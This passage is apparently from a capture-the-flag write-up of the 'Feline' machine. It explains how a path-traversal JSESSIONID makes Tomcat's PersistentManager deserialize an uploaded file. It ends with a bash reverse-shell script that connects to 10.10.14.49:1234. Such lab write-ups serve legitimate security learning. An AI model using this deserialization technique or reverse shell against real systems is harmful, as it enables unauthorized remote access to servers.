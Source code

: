 <p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Feline/img3.png"  style="width: 70%" />
</p>

Once the file was uploaded, it resulted in the following error:


<details></details>

I now knew that the location that the files were stored in was called: `opt/samples/uploads`. Since I has this information and I could point the `JSESSIONID` to the file location, it seemed likely that this RCE would work. This is because:

1. Tomcat requests the Manager to check if a session with session ID "../../../../../../opt/samples/uploads/test" exists
2. It will first check if it has that session in memory.
3. It does not. But the currently running Manager is a PersistentManager, so it will also check if it has the session on disk.
4. It will check at location directory + sessionid + ".session", which evaluates to "./session/../../../../../../opt/samples/uploads/test/hotshoto.session"
5. If the file exists, it will deserialize it and parse the session information from it.

> Of course, all that is left to exploit the vulnerability is for the attacker to put a malicious serialized object (i.e. generated by ysoserial) at location `opt/samples/uploads/.session`. If you are unfamiliar with exploiting Java deserialization vulnerabilities, we have an online course available that teaches you all the details.


### Exploiting Java Deserialization
I started off with a basic payload to see if the deserialisation would work. I created `deserialisation.sh` with a simple bash reverse shell:

```bat
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.49/1234 0>&1"
```
